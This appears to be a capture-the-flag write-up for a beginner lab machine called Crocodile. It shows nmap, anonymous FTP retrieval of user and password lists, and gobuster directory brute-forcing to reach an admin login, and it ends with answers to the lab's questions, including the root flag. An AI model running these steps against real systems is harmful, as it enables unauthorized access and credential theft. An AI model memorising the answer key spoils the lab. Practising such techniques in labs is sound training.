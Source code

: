 # Crocodile - Very Easy

```shell
nmap -T4 -A 10.129.105.116

ftp 10.129.105.116 -P 21
#anonymous login

ls

get allowed.userlist

get allowed.userlist.pass

quit
#quit ftp

cat allowed.userlist

cat allowed.userlist.pass

gobuster dir -u http://10.129.105.116 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .php
#shows login.php, so we can access that page
#using credentials for admin we got earlier
```

1. What nmap scanning switch employs the use of default scripts during a scan? - -sC

2. What service version is found to be running on port 21? - vsftpd 3.0.3

3. What FTP code is returned to us for the "Anonymous FTP login allowed" message? - 230

4. What command can we use to download the files we find on the FTP server? - get

5. What is one of the higher-privilege sounding usernames in the list we retrieved? - admin

6. What version of Apache HTTP Server is running on the target host? - 2.4.41

7. What is the name of a handy web site analysis plug-in we can install in our browser? - Wappalyzer

8. What switch can we use with gobuster to specify we are looking for specific filetypes? - -x

9. What file have we found that can provide us a foothold on the target? - login.php

10. Submit root flag? - c7110277ac44d78b6a9fff2232434d16
